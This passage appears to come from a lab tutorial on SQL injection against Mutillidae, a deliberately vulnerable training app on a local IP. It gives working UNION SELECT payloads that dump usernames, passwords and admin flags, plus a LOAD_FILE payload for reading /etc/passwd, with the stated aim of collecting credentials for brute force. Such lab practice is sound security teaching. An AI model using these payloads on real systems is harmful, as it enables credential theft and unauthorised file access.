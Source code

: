 ### Ex: (union select 1,username,password,is_admin,5 from accounts).

### http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![alt text](Images/27.png)
## Reading and writing files on the web-server

### We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

### Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

### http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details